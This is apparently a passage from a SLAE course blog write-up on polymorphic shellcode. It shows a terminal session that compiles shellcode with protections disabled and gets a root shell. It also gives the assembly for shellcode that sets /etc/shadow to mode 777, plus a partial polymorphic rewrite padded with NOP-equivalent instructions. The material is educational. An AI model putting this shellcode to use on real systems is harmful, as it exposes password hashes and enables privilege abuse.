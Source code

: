 ```term

}
```

#### EndGame #1

```term
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/1_shellcode# gcc polymorphic.c -o polymorphic -fno-stack-protector -z execstack -w 
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/1_shellcode# ./polymorphic 
Shellcode Length:  30
#
```

Original Size: 23 bytes
Final Size: 30 bytes

Increment: 31%

#### Chmod Shellcode (Shellcode #2)

The second shellcode from the three will be one that performs a ```chmod``` operation on the file ```/etc/shadow``` with privileges ```777```. It can be found [here](http://shell-storm.org/shellcode/files/shellcode-590.php). 

###### Original code:

```term
xor    eax,eax
push   eax
mov    al,0xf
push   0x776f6461
push   0x68732f63
push   0x74652f2f
mov    ebx,esp
xor    ecx,ecx
mov    cx,0x1ff
int    0x80
inc    eax
int    0x80
```

There aren't many things that we can do. Nonetheless, we can apply similar techniques as we did on the previous shellcode.

###### Final code:

```term
; Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-590.php

global _start

_start:

       dec ebp            ; NOP Equivalent.

       xor eax, eax       ; Zeroes out EAX.
       cdq                ; Zeroes out EDX.
       push edx           ; Pushes the dword of EDX (0x00000000).
       mov al, 0xf        ; Moves value of syscall chmod into AL.

       sahf               ; NOP Equivalent.
       push 0x776f6461    ; woda

       cld                ; NOP Equivalent.
       push 0x68732f63    ; hs/c

       push 0x74652f2f    ; te//
```